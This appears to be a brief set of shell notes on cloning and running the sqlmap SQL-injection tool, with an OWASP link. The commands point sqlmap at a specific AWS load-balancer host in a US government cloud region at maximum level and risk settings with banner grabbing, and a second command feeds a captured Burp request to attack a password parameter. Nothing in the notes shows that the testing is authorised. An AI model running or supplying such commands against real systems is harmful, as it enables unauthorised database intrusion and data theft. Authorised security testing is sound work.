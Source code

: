 

cd ~/Desktop/
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev/
python ./sqlmap.py --user-agent "test" --url "https://boutte-reanplatform-dockerhost-1002413089.us-gov-west-1.elb.amazonaws.com" --threads=4 --dbms MySQL --level=5 --risk=3 --banner --answers="union-char=Y" --keep-alive --eta -v 3


https://www.owasp.org/index.php/Automated_Audit_using_SQLMap



# attach post request with configuration coming from burp file
./sqlmap.py -r search-test.txt -p tfUPass